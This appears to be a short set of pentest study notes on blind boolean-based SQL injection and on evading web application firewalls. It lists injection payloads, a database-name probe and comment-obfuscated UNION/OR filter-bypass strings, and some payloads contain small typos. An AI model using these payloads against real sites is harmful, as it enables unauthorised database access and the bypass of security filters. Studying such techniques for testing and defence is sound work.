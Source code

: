 # Blind Boolean based SQL & Evasion Techniques

## Blind Boolean based SQL

* 11' and 'N' = 'N TRUE
* 11' and 'N'= 'A False
* substring('Ahmed'.1.1)='A' => True

```
select substring(database(),1,1)='d'
```

<figure><img src="../../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

## Evasion Techniques

* WAF
  * ' or 1-1 --+&#x20;
    * or 2>1
    * 'or 'hacktor'>'a'
  * '/\*!<mark style="color:red;">**12345**</mark>order\*/by 7#
  * url encode,hex etc..
  * EXEC('sele','ct')
  * "UNION       SELECT"
  * '/\*\***/or/\*\*/1/\*\*/=/\*\*/1/\*\*/**
  * **Hackbar => Cyberfox**
